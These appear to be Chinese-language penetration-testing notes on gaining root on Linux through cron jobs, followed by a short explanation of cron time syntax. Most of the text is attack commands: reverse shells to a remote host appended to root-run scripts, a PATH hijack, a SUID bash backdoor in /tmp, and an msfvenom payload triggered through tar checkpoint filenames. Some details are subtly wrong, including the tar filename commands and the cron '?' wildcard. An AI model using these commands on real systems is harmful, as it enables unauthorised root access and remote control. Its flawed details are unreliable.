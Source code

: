 # 文件权限

root权限自动任务脚本可写，写入反弹shell

```bash
cat /etc/crontab
# root /path/file writable
echo 'bash -i >& /dev/tcp/<host>/1234 0>&1' >> /file
```

# PATH环境变量

root权限自动任务存在，路径为相对地址，PATH中存在可写文件夹，在其中编写同名自动任务文件

- 写入反弹shell

```bash
echo '#!/bin/bash' > OnePATH/file
echo 'bash -i >& /dev/tcp/<host>/1234 0>&1' >> OnePATH/file
```

- 写入提权代码

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```bash
/tmp/rootbash -p # -p: priviledged, run as suid
```

# tar命令—checkpoint机制

root权限自动任务脚本存在，脚本中存在tar命令，使用tar命令的—checkpoint机制执行反弹shell。

**原理：**

在 Linux 的 `tar` 命令中，`--checkpoint` 选项用于在读取或写入每 n 条记录时设置检查点。默认情况下，n 的值为 10。检查点允许我们定期执行任意操作。
这些操作包括暂停、显示文本消息以及执行任意外部程序。这些操作是通过 `--checkpoint-action` 选项定义的。

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<host> LPORT=<port> -f elf -o shell.elf
# /path/to/rshell = path of running tar cmd
touch /path/to/rshell--checkpoint=1
touch /path/to/rshell--checkpoint-action=exec=shell.elf
```

---

# 自动任务时间中的通配符

格式

```bash
m h dom mon dow
```

在自动任务中，通配符用于表示一组值。以下是一些常见的通配符及其含义：

- *：表示任何可能的值。例如，在 cron 表达式中，如果在“小时”字段中使用 *，则表示“每个小时”。
- ?：表示不指定值。这在某些字段（如 cron 表达式的“日”和“周”字段）中很有用，当你想忽略这个字段时，可以使用 ?。
- -：表示一个范围。例如，在 cron 表达式中，1-5 表示“从 1 到 5”。
- ,：用于指定多个值。例如，在 cron 表达式中，1,3,5 表示“1、3 和 5”。
- /：用于指定间隔值。例如，在 cron 表达式中，*/5 表示“每 5 个单位”。